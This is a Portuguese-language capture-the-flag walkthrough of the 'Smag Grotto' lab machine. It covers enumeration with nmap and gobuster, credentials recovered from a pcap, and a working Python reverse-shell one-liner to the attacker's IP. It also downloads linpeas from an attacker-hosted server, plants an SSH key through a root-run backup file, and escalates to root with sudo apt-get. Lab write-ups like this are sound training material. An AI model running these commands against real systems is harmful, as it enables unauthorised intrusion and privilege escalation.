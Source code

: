 # _**Smag Grotto CTF**_
![](grotto.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um website, vamos visitar  
Apenas um simples website  
Vamos tentar um _brute force_ de diretórios com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos um diretório promissor: **e-mail**  
Vamos investigar  
Parece que temos algumas mensagens de e-mail relatando a migração de rede e a falha no _download_ de um arquivo  
É relatado também ser necessário realizar download do arquivo via ```wget```  
Clicando no arquivo, conseguimos download, se trata de um arquivo _.pcap_  
Arquivos _.pcap_ são arquivos padrão utilizados em scanners de rede como Wireshark  
Vamos abrir este arquivo  
Investigando os pacotes HTTP, encontramos um usuário e senha  

![](pcap_wireshark.jpg)

Além disso, este pacote está sendo enviado para: <mark>development.smag.thm/login.php</mark>  
Para podermos acessar este domínio, precisamos alterar nosso arquivo _/etc/hosts_  

![](etc_hosts.jpg)  

Temos duas áreas para realizar login, vamos tentar ambas  
Ambas levam a mesma página e dão login como sucesso  

![](command_page.jpg)  

Vamos começar testando alguns comandos  
Após alguns testes, parece que deve aceitar diversos comandos, mas não existe nenhum resultado visual  
Tentando obter uma shell com o comando abaixo  
> ```bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
![](shell_success.jpg)

Obtemos uma shell!  
Vamos melhorar ela com ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```  

## _**Ganhando acesso**_
Primeiro, vamos investigar um pouco  
Após um tempo procurando algum arquivo explorável com alguns comandos básicos, foi decidido usar o programa <mark>LinPeas</mark> para essa tarefa  
Primeiro, ligamos nosso servidor HTTP com: ```python3 -m http.server 8080```
Em seguida, na máquina-alvo, buscamos com: ```curl http://[ip_address]:[port]/linpeas.sh -o /tmp/linpeas.sh```; obs: com ```wget``` estava dando erro  
Damos as permissões necessárias e em seguida, executamos  

![](bkp_ssh.jpg)

Este arquivo parece estar sendo executado como _root_, copiando o conteúdo de _/opt/.backups/jake_id_rsa.pub.backup_ para as chaves de **jake**  
Podemos realizar o seguinte:
* em nossa máquina
> ```bash
> ssh-keygen -t rsa -b 4096
> ```
Siga as etapas para criar a chave privada e a chave pública

> ```bash
> python3 -m http.server 8080
> ```

* na máquina-alvo
> ```bash
> wget http://[ip_address]:[port]/pub_key_name.pub -o /tmp/pub_key_name.pub
> cat pub_key_name.pub > /opt/.backups/jake_id_rsa.pub.backup
> ```
Espere 1 minuto e realize login via SSH com: ```ssh -i priv_key_name jake@[ip_address]```  

![](jake_login.jpg)  

## _**Escalando privilégios**_
Vamos começar com alguns comandos básicos como ```sudo -l```  
Parece que temos algo promissor após ver a seguinte linha:  **(ALL : ALL) NOPASSWD: /usr/bin/apt-get**  
Investigando por comandos para obter _root_, cheamos no seguinte:
> ```bash
> sudo apt-get -o APT::Update::Pre-Invoke::="/bin/bash" update
> ```
Esse comando executa /bin/bash como root antes da atualização de pacotes  

![](root.jpg)

Agora, basta ir atrás das flags!
